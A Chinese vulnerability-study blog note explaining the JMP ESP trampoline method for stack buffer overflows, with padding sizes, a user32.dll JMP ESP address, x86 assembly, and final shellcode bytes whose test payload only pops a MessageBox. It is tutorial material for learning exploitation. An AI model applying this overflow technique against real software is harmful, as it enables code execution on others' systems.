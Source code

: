 ```yaml
---
title: 漏洞学习笔记-002-ESP跳板
description: ShellCode的动态定位法-ESP跳板法
date: 2020-10-19 18:20:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


> [点击此处下载本文附可执行程序，shellcode文件](./exploit-study-02.zip)

本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-002-esp跳板/)

## 栈空间移位

ShellCode在内存中往往是动态的，并非直接填写一个定值  
也就是前一篇中buffer数组的栈空间地址，并非总是个定值  
当CPU执行到此地址时，有可能触发无效指令异常导致程序崩溃，ShellCode无法运行

### 原理

从程序已加载的系统DLL中查找一个`JMP ESP`指令的地址，用此地址去淹没返回地址  
这样既能精准定位shellcode的位置，又能适应栈空间的动态变化  
栈的地址是上小下大，CPU的执行顺序是小地址到大地址，栈淹没同样从小地址淹没到大地址  
这样只要将前面的一段空间淹没为无意义数据，将ShellCode的开始恰好淹没在`[ESP]`处，就可以达到ShellCode动态寻址

### ShellCode编写

#### 结构

无用数据+`JMP ESP`地址(此地址恰好淹没到函数返回地址)+命令代码(用于测试，MessageBox弹窗)

> 说明：
>
> - `retn`后将会跳到`JMP ESP`处，随后ESP + 4
> - `JMP ESP`后将会正好跳到命令代码处

#### 必要数据

- `JMP ESP`地址：位于User32.dll中`0x77D29353`(没必要必须是原版命令，只要搜二进制`0xFFE4`即可)
- 垃圾数据大小：52 Byte = Buffer(44 Byte) + authenticated(4 Byte) + EBP(4 Byte)

#### 最终Code

> 以下是需要执行的命令代码

```x86asm
33DB                      xor ebx,ebx
53                        push ebx
68 6D756F6F               push 0x6F6F756D
68 4D6F656F               push 0x6F656F4D
8BC4                      mov eax,esp
53                        push ebx
50                        push eax
50                        push eax
53                        push ebx
B8 EA07D577               mov eax,user32.MessageBoxA
FFD0                      call eax
B8 FACA817C               mov eax,kernel32.ExitProcess
FFD0                      call eax
```

> 最终的ShellCode

```c
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 53 93 D2 77  33 DB 53 68 6D 75 6F 6F
68 4D 6F 65 6F 8B C4 53  50 50 53 B8 EA 07 D5 77
FF D0 B8 FA CA 81 7C FF  D0
```
